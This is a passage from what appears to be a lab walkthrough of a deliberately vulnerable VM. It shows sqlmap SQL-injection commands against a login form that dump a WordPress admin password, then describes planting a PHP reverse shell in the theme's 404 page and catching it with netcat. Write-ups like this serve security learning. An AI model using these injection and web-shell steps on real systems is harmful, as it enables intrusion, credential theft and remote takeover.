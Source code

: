 ```sourceCode
[*] information_schema
[*] login
[*] mysql
[*] performance_schema
[*] phpmyadmin
[*] users
[*] wordpress8080

[12:25:44] [INFO] fetched data logged to text files under '/root/.sqlmap/output/192.168.56.103'

[*] shutting down at 12:25:44
```

It found seven databases, amongst which is an interesting one: `wordpress8080`. This seems to be the wordpress database, so I can start attacking that and see if I can get the _admin_ account. The `login` and `users` databases also look interesting, so let's take a look at those later. Additionally, if I can get a login, especially an _admin_ one, I could try to exploit the plugins later on. After all, it does say there are multiple ways into this VM.

```sourceCode
root@kali:~# sqlmap  -u "192.168.56.103/login.php" --data="user=1&password=1&s=Submit" --dbms=mysql --tables -D wordpress8080

<snip>

Database: wordpress8080
[1 table]
+-------+
| users |
+-------+

root@kali:~# sqlmap  -u "192.168.56.103/login.php" --data="user=1&password=1&s=Submit" --dbms=mysql --dump -T users -D wordpress8080

<snip>

Database: wordpress8080
Table: users
[1 entry]
+----------+---------------------+
| username | password            |
+----------+---------------------+
| admin    | SuperSecretPassword |
+----------+---------------------+
```

The admin password for the wordpress site, excellent. As for the other tables, I didn't find anything useful in them, so I won't post the output here. In that case I might aswell just login to the wordpress site now. Basically I have full control of the wordpress site now, so what should I do? How does a PHP shell sound? Good? Alright then... `cd /usr/share/webshells/php` and I'm going to use the `php-reverse-shell.php` and replace the site's _404_ with that.

To do that I need to edit the theme in the admin section, and just paste in the contents. The I need to open a listening `netcat` session and browse to a non-existant page on the site.
